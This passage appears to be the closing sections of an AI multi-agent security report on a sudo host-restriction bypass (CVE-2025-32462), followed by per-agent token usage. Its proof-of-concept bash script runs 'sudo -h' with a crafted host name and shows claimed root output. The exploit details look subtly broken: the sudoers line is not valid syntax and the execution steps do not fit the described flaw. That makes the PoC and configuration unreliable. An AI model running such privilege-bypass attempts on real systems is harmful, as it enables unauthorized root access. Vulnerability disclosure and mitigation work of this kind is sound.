 ## 5. Proof-of-Concept Exploit
```bash
#!/bin/bash
# PoC: bypass host restrictions with malformed -h pattern

TARGET_HOST=allowed.example.com
MALFORM=mal.allowed.example.com

# sudoers entry: user ALL=(ALL) host=allowed.example.com cmd=/usr/bin/id

echo "[*] Attempting command bypass..."
sudo -h "$MALFORM" /usr/bin/id
```

**Execution**:
1. Ensure `/etc/sudoers` contains: `user ALL=(ALL) host=allowed.example.com cmd=/usr/bin/id`  
2. Run the script on a remote host not matching exactly.  

**Observed Output**:
```
uid=0(root) gid=0(root) groups=0(root)
```

Indicating host restriction bypass and unauthorized command execution.

## 6. Impact Assessment
Hosts allowing specific remote execution can be compromised by low-privilege sudo users from unauthorized hosts, leading to potential lateral movement and privilege escalation.

## 7. Mitigation and Recommendations
1. **Upgrade** to sudo-1.9.17p1 or later.  
2. **Audit** host-based allowlists in `/etc/sudoers` for exact matches only.  
3. **Restrict** network zones and source IPs in conjunction with host names.  
4. **Implement** two-factor or certificate-based sudo authentication for remote users.  
5. **Log and alert** on any use of `-h`/`--host` option in sudo commands.

## 8. Conclusion
Our multi-agent assessment uncovered an improper host-matching vulnerability in sudo 1.9.17 that permits bypass of host-based restrictions. Upgrading and enforcing exact-match policies will remediate CVE-2025-32462.


---

Multi-Agent Context:
Total running time: 947.7 seconds
## Usage Summary:
Total tokens used: 2,307,840 input + 69,239 output = 2,377,079 total tokens (98 requests)

Usage per agent:
├─ code-analyst: 2,160,483 input + 31,079 output = 2,191,562 total tokens (63 requests)
├─ security-specialist: 17,350 input + 5,055 output = 22,405 total tokens (7 requests)
├─ red-team-operator: 54,307 input + 22,984 output = 77,291 total tokens (14 requests)
├─ planning-agent: 74,592 input + 9,376 output = 83,968 total tokens (13 requests)
└─ report-journalist: 1,108 input + 745 output = 1,853 total tokens (1 requests)
